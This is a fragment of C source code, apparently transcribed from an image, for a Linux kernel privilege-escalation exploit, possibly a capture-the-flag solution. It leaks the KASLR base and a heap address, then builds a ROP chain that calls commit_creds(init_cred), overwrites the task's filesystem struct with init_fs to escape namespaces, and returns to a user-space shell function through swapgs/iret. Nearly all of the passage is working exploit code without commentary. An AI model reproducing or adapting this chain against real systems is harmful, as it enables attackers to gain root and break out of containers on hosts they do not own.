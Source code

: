 ```c

        if(0x6c0a801d04048000 == permission)
        {
            TARGET_ADDR = *(size_t *)(buf+0x58) -0x58;
            KASLR = *(size_t *)(buf+0x28) - 0x1040400;
            if(KASLR&0xfffff){
                KASLR = (KASLR+0x800000)>>24<<24;
            }
            idx = i;
            goto ALIVE;
        }
    }
    warn("💔 Unfortunately...");
    exit(0);

    ALIVE:
    success(hex(KASLR));
    success(hex(TARGET_ADDR));
    size_t * ptr = 0;
    ptr     = (size_t *)(buf+0x28);
    *ptr    = (size_t *)((TARGET_ADDR>>12<<12)+0x20000 -0x78);

    ptr = T;
    int index = 0 ;
    memset(ptr,0,0x1000);

    size_t rdi = 0xffffffff819e52dd - NO_ASLR_BASE + KASLR;
    size_t rcx = 0xffffffff8192f977 - NO_ASLR_BASE + KASLR;
    size_t rdx = 0xffffffff81a0518a - NO_ASLR_BASE + KASLR;
    size_t rsi = 0xffffffff81a0edd8 - NO_ASLR_BASE + KASLR;
    size_t gadget                   = 0xffffffff8111138a - NO_ASLR_BASE + KASLR;
    size_t init_cred                = 0xffffffff8245a960 - NO_ASLR_BASE + KASLR;
    size_t commit_creds             = 0xffffffff810eba40 - NO_ASLR_BASE + KASLR;
    size_t swap_gs_iret             = 0xffffffff81c00f06 - NO_ASLR_BASE + KASLR;
    size_t init_nsproxy             = 0xffffffff8245a720 - NO_ASLR_BASE + KASLR;
    size_t add_rax_rcx_ret          = 0xffffffff810587d3 - NO_ASLR_BASE + KASLR;
    size_t find_task_by_vpid        = 0xffffffff810e4fc0 - NO_ASLR_BASE + KASLR;
    size_t switch_task_namespaces   = 0xffffffff810ea4e0 - NO_ASLR_BASE + KASLR;
    size_t mov_qword_ptr_rax_rsi_ret= 0xffffffff815b55c1 - NO_ASLR_BASE + KASLR;
    size_t init_fs                  = 0xffffffff82589740 - NO_ASLR_BASE + KASLR;

    ptr[index++] = gadget;
    saveStatus();
    index = 0x21;
    ptr[index++] = rdi+1;
    ptr[index++] = rdi;
    ptr[index++] = init_cred;
    ptr[index++] = commit_creds;
    ptr[index++] = rdi;
    ptr[index++] = getpid();
    ptr[index++] = find_task_by_vpid;
    ptr[index++] = rcx;
    ptr[index++] = 1760; 
    ptr[index++] = add_rax_rcx_ret ; 
    ptr[index++] = rsi ; 
    ptr[index++] = init_fs ; 
    ptr[index++] = mov_qword_ptr_rax_rsi_ret;
    ptr[index++] = swap_gs_iret;
    ptr[index++] = 0;
    ptr[index++] = 0;
    ptr[index++] = shellx;
    ptr[index++] = user_cs;
    ptr[index++] = user_rflags;
```